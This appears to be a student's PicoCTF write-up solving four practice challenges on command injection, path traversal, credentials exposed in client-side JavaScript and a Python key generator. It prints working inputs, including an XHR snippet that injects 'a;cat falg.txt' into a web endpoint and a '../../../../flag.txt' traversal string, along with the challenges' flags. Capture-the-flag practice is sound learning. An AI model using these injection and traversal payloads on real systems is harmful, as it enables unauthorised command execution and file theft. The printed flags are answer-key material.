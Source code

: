 # PicoCTF

## Web Exploitation

### CaaS
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/5fbb2dc5-3a06-4028-a3f3-aa62e80031ec)
<br>
Made an XML HTTP request to the URL.
We can do this inside the console itself.

```javascript
var request = function(message) {
    const xhr = new XMLHttpRequest();
    xhr.open("GET", "https://caas.mars.picoctf.net/cowsay/"+message);
    xhr.send();
    xhr.responseType = "text";
    xhr.onload = () => {
    if (xhr.readyState == 4 && xhr.status == 200) {
        const data = xhr.response;
        console.log(data);
    } else {
        console.log(`Error: ${xhr.status}`);
    }
    };
};

request("somerandommessage")
```
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/914122ac-6492-43b6-83db-f089519cc5f9)
<br>
The request is visible to be successful with a status 304.
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/b1365e04-0da6-4222-8e3a-bf88e1bc9214)
<br>
Amazingly enough, the server is directly executing the text put in the URL. Adding a semicolon at the end of the message text will let me execute a command after it. A snippet from the provided ``index.js`` file -
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/f6303078-ba02-4d57-a35c-ff4a2772fdd5)
<br>
I tried making a script to run a command but a CORS policy 'No-Access-Control-Origin' error came. Apparently only requests from the same origin are allowed. So I'll have to continue to use the browser console or just enter the URLs directly.
<br>
I try to see all the files present in the directory -
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/ec3d400a-38b2-40d1-a79d-9f6bcb906f42)
<br>
Out of these, only ``falg.txt`` seems to contain the flag present. So I run ``cat falg.txt`` -
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/bb9fbe7b-e0dd-4761-8a04-52fcfcf904ba)
<br>
The equivalent of the above would be to execute the following in the console - 
```javascript
var request = function(message) {
    const xhr = new XMLHttpRequest();
    xhr.open("GET", "https://caas.mars.picoctf.net/cowsay/"+message);
    xhr.send();
    xhr.responseType = "text";
    xhr.onload = () => {
    if (xhr.readyState == 4 && xhr.status == 200) {
        const data = xhr.response;
        console.log(data);
    } else {
        console.log(`Error: ${xhr.status}`);
    }
    };
};

request("a;cat falg.txt")
```
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/e9c02879-017a-4f32-ac4c-f25376ff0a81)
<br>
<br>
**Flag obtained:** ``picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}``

### Forbidden Paths
To go up 4 directories to ``flag.txt``, enter ``../../../../flag.txt`` in the input text box.
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/c3ffe7fb-5052-4b38-9f43-071e7f8b1713)
<br>
**Flag obtained:** ``picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}``

### Local Authority
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/6b8556c7-854e-4d81-91af-6e5ea6ebb4a0)
<br>
First checked source tab and network tab and read through the files. 
<br>
Then tried logging in with random credentials. 
<br>
The login failed. Then checked the network tab. Saw a ``secure.js`` file. It had the credentials in it.
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/8baf007a-d5f3-414e-bd75-ec17082c3be1)
<br>
Logged in with these credentials and the flag was shown.
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/9068fe91-9327-42e2-ae26-0c52b40ff641)
<br>
**Flag obtained:** ``picoCTF{j5_15_7r4n5p4r3n7_05df90c8}``

## Reverse Engineering
### keygenme-py
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/55999ecb-dfff-4576-80a0-6280c0e9703c)

First I read through the program. Apparently they're using the Fernet library to decrypt an encrypted string. The key for this has to be provided by the user. However, before decrypting the string, they're checking whether the key is valid. In the ``check_key()`` function the program shows the structure of the key. Moreover much of the structure of the key is shown in the variable names.
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/df66cc70-6c91-4344-886b-77f3335562b7)
<br>
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/f7b0ba5b-169b-447f-9114-c996b714c50c)
<br><br>
The static part was already given. To get the dynamic part, I inserted the following snippet near the beginning of the code and ran it -
```python
print(hashlib.sha256(bUsername_trial).hexdigest())
indexes = [4,5,3,6,2,7,1,8]
key_middle_part = ""
for i in indexes:
    key_middle_part += hashlib.sha256(bUsername_trial).hexdigest()[i]
full_key = key_part_static1_trial + key_middle_part + key_part_static2_trial
print(full_key)
```
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/84c29319-c585-498f-b408-baba8e140bca)
![image](https://github.com/codegallivant/cryptonite-taskphase/assets/27366422/ea97d16f-2093-4109-9eed-911bc88ed7f4)
<br><br>
The 2nd line is the flag.
<br>
**Flag obtained:** ``picoCTF{1n_7h3_|<3y_of_0d208392}``
